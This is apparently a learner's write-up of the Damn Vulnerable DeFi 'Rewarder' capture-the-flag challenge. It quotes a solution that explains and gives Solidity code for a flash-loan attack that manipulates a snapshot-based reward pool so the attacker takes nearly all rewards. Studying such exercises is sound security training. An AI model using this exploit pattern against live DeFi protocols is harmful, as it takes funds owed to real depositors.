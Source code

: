 ## [Challenge #5 - The rewarder](https://www.damnvulnerabledefi.xyz/challenges/5.html)

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

## Solutions

### Self

I think I did pretty good on this one on my own. I probably got 80% of the way there, at least I had a lot of the basic concepts in the contract and JS code. I just needed to look at [cmichel.io](https://cmichel.io/damn-vulnerable-de-fi-solutions/)'s solution to tidy things up and make a couple changes. I should have commited my solution and then modified it to fit his. But I did not think about it and now it'll take too long to figure it out. Oh, well.  

### [cmichel.io](https://cmichel.io/damn-vulnerable-de-fi-solutions/)

In this challenge, there is a reward contract in addition to the flash loan contract. The reward contract pays out rewards every 5 days based on a snapshot token balance. As a general rule, if some logic relies on a single snapshot in time instead of continuous/aggregated data points, it can be manipulated by flash loans. This is also true here, we can wait until rewards are being distributed again, take a huge flash loan, and deposit all tokens from the flash loan to the reward pool. Its `deposit` function creates a new snapshot of the current token balances and immediately distributes the rewards. Due to our token balance and thus our share of the overall tokens in the reward pool being so high, the integer division results in all other accounts receiving `0` rewards.

```solidity
function attack() public {
    // take a flash loan, deposit into rewards pool
    // receive rewards, pay back flash loan

    uint256 flashLoanBalance =
        liquidityToken.balanceOf(address(flashLoanPool));
    // approve amount of flashloan for rewarderPool.deposit
    liquidityToken.approve(address(rewarderPool), flashLoanBalance);
    flashLoanPool.flashLoan(flashLoanBalance);

    // send reward tokens to attacker EOA
    require(rewardToken.balanceOf(address(this)) > 0, "reward balance was 0");
    bool success =
        rewardToken.transfer(
            msg.sender,
            rewardToken.balanceOf(address(this))
        );
    require(success, "reward transfer failed");
}

// called by IFlashLoanerPool::flashLoan
function receiveFlashLoan(uint256 amount) external {
    // deposit distributes rewards already
    rewarderPool.deposit(amount);
    rewarderPool.withdraw(amount);
    // pay back to flash loan sender
    liquidityToken.transfer(address(flashLoanPool), amount);
}
```